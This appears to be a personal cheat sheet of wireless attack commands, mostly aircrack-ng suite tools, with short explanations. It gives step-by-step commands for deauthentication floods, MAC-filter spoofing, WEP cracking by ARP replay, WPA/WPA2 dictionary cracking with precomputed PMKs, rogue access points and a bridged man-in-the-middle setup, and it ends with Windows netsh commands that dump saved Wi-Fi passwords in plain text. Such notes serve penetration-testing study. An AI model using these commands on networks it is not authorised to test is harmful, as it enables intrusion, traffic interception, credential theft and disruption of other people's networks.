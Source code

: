 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**
2. ifconfig wlan0 up ---> start the wireless card 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing 

**Check active Access points and the stations/clients connecting to it**
4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**
6. 
	a. Passive way - monitor the network for clients to connect
	b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication 
	traffic.
		
	(send the deauthentication notification packet to the clients)
	aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

	--deauth 0 will continously send deauth packets
	-D disable AP detection

7. Bypassing MAC filters

	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> Trying a fake authentication using the wireless card when MAC filter is 	
	off(open network)
	b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow
	authentication

8. Cracking Shared/WEP encyption
	
	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
	b. ifconfig at0 up  ---> Power up the soft interface created
	c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

	a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
	b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
	3. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)
	a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
	b. use aircrack/ cowpatty along with the dictionary
	c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

	a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

	Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs

	b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
	c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	With Pyrit

	d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
	e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

	f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
			or

	f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

	With Aircrack - analyze the handshake capture file

	g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

	a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
	b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
	c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

	**wpa_supplication.conf** 

	ctrl_interface=/var/run/wpa_supplicant
	ap_scan=1

	network={
	ssid="Pop"
	proto=WPA
	key_mgmt=WPA-PSK
	pairwise=CCMP TKIP
	group=CCMP TKIP WEP104 WEP40
	psk="boloTarara"
	priority=2
	}

	**command**
	wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

	a. netsh wlan show interfaces --> view all wifi interfaces

	b. netsh wlan show drivers  --> extract current wifi driver information

	c. netsh wlan show networks --> view available networks


	d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

	e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

	f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

	g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

	h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

	i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    	netsh wlan start hostednetwork






